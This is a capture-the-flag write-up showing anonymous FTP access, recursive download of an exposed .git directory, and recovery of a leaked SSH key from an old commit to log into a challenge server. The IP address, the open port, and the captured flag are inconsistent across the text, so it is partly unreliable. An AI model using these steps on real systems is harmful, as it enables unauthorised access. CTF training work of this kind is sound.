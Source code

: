 # Time Traveler's Git (Part 1)

## Description
> You are a time traveler who stumbled upon an ancient Git repository containing valuable data from a long-gone era. However, the repository seems to have some hidden secrets and potential vulnerabilities in its history. Charlie is your friend.

`143.110.189.89`

## Solution
* We are given an IP address.
* Running a quick **nmap** scan on the IP address, we find that port 22 is open.
* We can login to the ftp server using `anonymous` as the username. 
```bash
ftp 143.110.180.89
Connected to 143.110.180.89.
220 (vsFTPd 3.0.5)
Name (143.110.180.89:ssk): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x  1    1000   1000    4096 Jul 25 10:31 .
dr-xr-xr-x  1    1000   1000    4096 Jul 25 10:31 ..
drwxrwxr-x  8    0      0       4096 Apr 09 18:58 .git
-rw-rw-r--  1    0      0       514  Apr 09 18:58 login.html
226 Directory send OK.
```
* Download everything from **.git** and **login.html** using ftp
    * I downloaded everything manually like a noob.
    * Alternative way:   
    `wget -r --no-passive --no-parent --user=anonymous --password=anonymous ftp://143.110.180.89`
* Check the logs  
`git log`

```
commit 00231aa51594c4d44631ce9237255fe779afa72c (HEAD -> main, origin/main, origin/HEAD)
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Mon Apr 10 00:25:47 2023 +0530

    Smart cookie

commit b5488e6d7b3e27949d825292fa992562333c1de9
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Sun Apr 9 23:43:58 2023 +0530

    Latest and fresh

commit 5a496dbebbce1585698634e5348703b74e7ac781
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Sun Apr 9 23:20:43 2023 +0530

    My first web application
```

* Check the first commit:
`git checkout 5a496dbebbce1585698634e5348703b74e7ac781`
* We find an **SSH** key
* Copy it to a file and change the permissions:  (**MAKE SURE THE FORMAT IS RIGHT!!!**)  
`chmod 600 id_rsa`
* Login to the server using the ssh key:  
`ssh -i id_rsa charlie@0.cloud.chals.io -p <port-no>` 
* List the files:
```sh
$ ls
user.txt
$ cat user.txt
KPMG_CTF{324b7e52953f62f1624fb64a2e8202e4}
```
* FLAG:  
`KPMG_CTF{ed0d1d2926547a24488d29fb5c3941be}`

